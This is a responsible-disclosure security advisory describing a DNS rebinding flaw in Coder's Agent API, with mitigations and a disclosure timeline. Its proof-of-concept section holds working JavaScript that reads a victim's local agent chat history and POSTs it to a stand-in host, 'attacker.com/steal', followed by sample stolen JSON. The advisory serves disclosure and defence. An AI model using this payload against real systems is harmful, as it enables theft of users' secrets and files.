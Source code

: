 ```yaml
---
layout: post
title: "Coder's Agent API Exposes User Chat History Via DNS Rebinding Attack"
date: 2025-09-19
categories: [dns-rebinding, security, api, llm]
excerpt: "A DNS rebinding vulnerability in Coder's Agent API allows remote attackers to exfiltrate a user's entire local message history, which may contain sensitive data like secret keys and intellectual property."
---
```


**Author:** Evan Harris  
**Affected Component:** Coder's Agent API  

# Overview 
Coder's Agent API is an open source HTTP API for Claude Code, Goose, Aider, Gemini, Amp, and Codex. 

MCPSec found a DNS rebinding vulnerability in the Agent API that allows remote attackers to exfiltrate a user's Claude Code message history. 

Coder fixed this issue in release v0.4.0. Agent API users should update to this version, or later. 

# Impact 
Attackers gain full GET access to the /messages endpoint served by the Agent API. 

This allows for the unauthorized exfiltration of sensitive user data, specifically local message history which can include secret keys, file system contents and intellectual property the user is working on locally. 

DNS rebinding can happen within a few seconds once connected to a malicious web server. 

## Proof of Concept 

Take the following assumptions: 
- The victim machine is running the Agent API. 
- The victim navigates to a malicious website. 
- The website executes a DNS rebinding attack to manipulate the victim's web browser to interact with the vulnerable Agent API on the attacker's behalf. 

After the DNS rebinding has been completed, an attacker can consume the locally served /messages endpoint. A victim's entire chat history with the Agent API can be exfiltrated to an attacker's server. 

MCPSec performed a proof of concept attack via the following: 
1. Deploy a DNS rebinding application (e.g. Singularity of Origin). 

2. Construct a payload served by a malicious website to obtain and exfiltrate data.

This JavaScript code, served from the malicious site, fetches the message history and sends it to the attacker.
```javascript
const AgentAPI = () => {
  function attack(headers, cookie, body) {
    fetch('http://localhost:3284/messages', {
      method: 'GET',
      mode: "cors",
    }).then(response => {
      const ATTACKER_SERVER = 'https://attacker.com/steal'
      response.json().then(victimMessageHistory => {
        fetch(ATTACKER_SERVER, {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json',
          },
          body: JSON.stringify(victimMessageHistory)
        }).then(r => {
          console.log("attacker server response", r)
        }).catch(e => {
          console.error('failed to post', e)
        })
      }).catch(e => {
        console.error('failed to parse response ', e)
      })
    }).catch(e => {
      console.error("failed to get messages", e)
    })
  }

  // Invoked to determine whether the rebinded service
  // is the one targeted by this payload. Must return true or false.
  async function isService(headers, cookie, body) {
    let controller = new AbortController();
    let signal = controller.signal;
    return timeout(1000, fetch(`http://localhost:3284/docs`, {
        mode: 'no-cors',
        credentials: 'omit',
        signal
      }), controller)
      .then(response => {
        return true;
      })
      .catch(e => {
        return (false);
      })
  }

  return {
    attack,
    isService
  }
}

Registry["AgentAPI"] = AgentAPI();
````

The /messages endpoint is being served on the victim's local machine, and responds with their chat history when queried. 

3. The attacker must run a data collection server that will receive a POST request. The contents of the POST request should be the response from the victim's Agent API /messages endpoint. 

On the victim machine, the Agent API was prompted to checkout the local file system. This is what was sent to the attacker's data collection server: 

The following is an example of the JSON data stolen from a victim who had asked the agent about their local filesystem.

```json
{
  "$schema": "http://localhost:3284/schemas/MessagesResponseBody.json",
  "messages": [{
    "id": 0,
    "content": "╭───────────────────────────────────────────────────╮ \n│ ✻ Welcome to Claude Code! │ \n│ │ \n│ /help for help, /status for your current setup │ \n│ │ \n│ cwd: /home/evan/Downloads │ \n╰───────────────────────────────────────────────────╯ \n \n ※ Tip: Press Esc twice to edit your previous messages ",
    "role": "agent",
    "time": "2025-07-25T11:20:04.988043205+02:00"
  }, {
    "id": 1,
    "content": "Hello, agent!",
    "role": "user",
    "time": "2025-07-25T13:11:16.699082236+02:00"
  }, {
    "id": 3,
    "content": "tell me about my filessytem",
    "role": "user",
    "time": "2025-07-25T13:14:51.120102556+02:00"
  }, {
    "id": 4,
    "content": "● I'll explore your filesystem to show you what's in your current directory \n and its structure. \n \n● List(.) \n ⎿ Listed 1048 paths (ctrl+r to expand) \n \n● Your Downloads directory contains a wide variety of files: \n \n Documents & PDFs [REDACTED_FOR_MY_OWN_SECURITY] The directory appears to be a typical developer's Downloads folder with a \n mix of tools, documents, and research materials, particularly focused on \n AI/ML security research.",
    "role": "agent",
    "time": "2025-07-25T13:15:10.681040365+02:00"
  }]
}
```
## Recommended Mitigations

### For Users (Immediate)

  - **Update to Agent API version v0.4.0 or later immediately.** This version contains the fix for the vulnerability.

### For Developers (Long-term)

  - **Implement robust Host header validation** for all locally served HTTP APIs to prevent DNS rebinding.
  - **Implement CSRF protection** to prevent other forms of cross-origin attacks.
  - **Add security warnings** in documentation for tools that expose local network services.

This vulnerability was reported to the Coder team through responsible disclosure practices. Coder responded quickly to patch the issue.

## Disclosure Timeline

  - **2025-07-25**: Initial vulnerability report submitted to Coder.
  - **2025-07-25**: Coder acknowledges receipt of report.
  - **2025-07-29**: Coder indicates they were able to reproduce and validate the attack scenario.
  - **2025-08-13**: Vulnerability was patched.
  - **2025-08-21**: Coder decided to award a security bounty for the report.
  - **2025-09-09**: Mutually agreeable advisory publication date agreed upon.
  - **2025-09-19**: Security advisory released.

## Conclusion

The DNS rebinding vulnerability in Coder's Agent API demonstrates a critical security challenge for the growing ecosystem of local AI-powered developer tools. While these tools offer powerful capabilities, they must be built with a security-first mindset to protect against web-based threats.

Shout out to the Coder team for their prompt and professional response in patching this vulnerability. All users of the Agent API should update to the latest version to ensure they are protected.

## References

  - [Patched Release (v0.4.0)](https://github.com/coder/agentapi/releases/tag/v0.4.0){:target="\_blank"}
